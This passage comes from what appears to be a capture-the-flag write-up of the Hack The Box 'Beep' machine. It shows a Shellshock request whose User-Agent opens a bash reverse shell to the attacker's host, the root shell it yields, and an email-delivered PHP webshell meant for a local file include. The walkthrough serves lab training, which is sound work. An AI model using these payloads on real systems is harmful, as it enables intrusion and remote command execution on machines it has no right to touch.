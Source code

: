 
So now can get shell (as root):

    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
    Content-Length: 28
    
    page=%2F&user=root&pass=root
    

    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 36248
    bash: no job control in this shell
    [root@beep webmin]# id
    uid=0(root) gid=0(root)
    

## Webshell Upload \[Path #5\]

### Get WebShell on Beep

#### Failures

Because I have a local file include, if I can get a webshell onto the host, then I can get execution that way. I tried a bunch of things:

*   Log Poisoning - I can put a PHP webshell into the User-Agent header and it’ll be logged in the . Unfortunately, I can’t read that file via the LFI. I’ve shown this [several times before](https://0xdf.gitlab.io/tags.html#log-poisoning).`access_log`
*   When I try to log into the Elastix web interface, it assigns a cookie, that looks like . Data about this session is stored at , and I can access this file. Unfortunately, the files remain empty, I’m guessing until I’m able to log in. This is an attack I showed in [Unattended](https://0xdf.gitlab.io/2019/08/24/htb-unattended.html#shell).`elastixSession``ambb7h36cmt7cngc245ilj6hp4``/tmp/sess_ambb7h36cmt7cngc245ilj6hp4`
*   Instead of trying to access a file on the system, I tried to access , but this failed as well.`http://10.10.14.2/shell.php`

#### Email

One way to get a file on disk is email. I’ll send an email to one of the accounts on the box, and then find it in . Why not the askerisk account? will send the email (or I could do it with similar to the enumeration above):`/var/mail/[username]``swaks``telnet`

    root@kali$ swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shel
    l" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
    === Trying 10.10.10.7:25...                                  
    === Connected to 10.10.10.7.
    <-  220 beep.localdomain ESMTP Postfix
     -> EHLO parrot
    <-  250-beep.localdomain                                     
    <-  250-PIPELINING
    <-  250-SIZE 10240000
    <-  250-VRFY                                                 
    <-  250-ETRN                                                 
    <-  250-ENHANCEDSTATUSCODES
    <-  250-8BITMIME
    <-  250 DSN
     -> MAIL FROM:<0xdf@0xdf.htb>
    <-  250 2.1.0 Ok
     -> RCPT TO:<asterisk@localhost>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Thu, 18 Feb 2021 15:33:00 -0500
     -> To: asterisk@localhost